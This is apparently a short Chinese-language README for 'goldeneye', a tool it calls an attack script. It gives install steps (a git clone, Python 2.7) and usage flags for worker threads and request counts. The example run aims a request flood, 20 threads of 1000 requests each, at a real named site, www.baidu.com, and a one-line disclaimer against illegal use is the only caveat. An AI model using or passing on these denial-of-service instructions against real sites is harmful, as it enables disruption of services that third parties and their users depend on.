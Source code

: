 # 1.介绍
这是一个攻击脚本(国外)

# 2.注意
请不要做违法的事情

# 3.安装
此版本需要python2.7.X

 ``` git clone https://github.com/Yummy-cookie/goldeneye.git  ```
 
 解压goldeneye.zip
 
 # 4.使用
  ``` python2 goldeneye.py  url -w 人数 -s 请求数  ```
 
 # 5.例如
 python2 goldeneye.py  www.baidu.com -w 20 -s 1000
 
 20线程每个线程请求1000次

